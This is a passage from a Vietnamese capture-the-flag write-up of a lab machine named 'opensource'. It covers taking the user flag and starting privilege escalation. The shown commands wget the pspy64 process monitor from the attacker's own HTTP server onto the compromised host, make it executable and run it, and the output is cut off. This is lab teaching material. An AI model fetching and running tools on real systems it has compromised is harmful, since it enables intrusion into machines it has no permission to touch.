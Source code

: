 ## `👨‍🚀` User Own

Lấy `flag` của `user`. 

```
dev01@opensource:~$ cat user.txt 
################################
```

# `PRIVILEDGE ESCALATION`
Để thực hiện leo thang đặc quyền, ta cần phải thực hiện các bước enum thông thường bằng tay trước: [S1REN's way](https://sirensecurity.io/blog/linux-privilege-escalation-resources/)

→ `Nothing` → bằng tay không được thì dùng `tool` thôi → sử dụng `pspy64` để quan sát các process.

Setup `pspy64` như cách mà mình đã setup `chisel` trên container.

```console
dev01@opensource:~$ wget http://10.10.14.3:8000/pspy64
--2022-07-25 09:39:51--  http://10.10.14.3:8000/pspy64
Connecting to 10.10.14.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                    100%[===================================>]   2.94M  4.45MB/s    in 0.7s    

2022-07-25 09:39:52 (4.45 MB/s) - ‘pspy64’ saved [3078592/3078592]

dev01@opensource:~$ chmod +x pspy64
```

Start `pspy64` và quan sát các `process` đang chạy trong machine

```console
ev01@opensource:~$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

<--SNIP-->
```
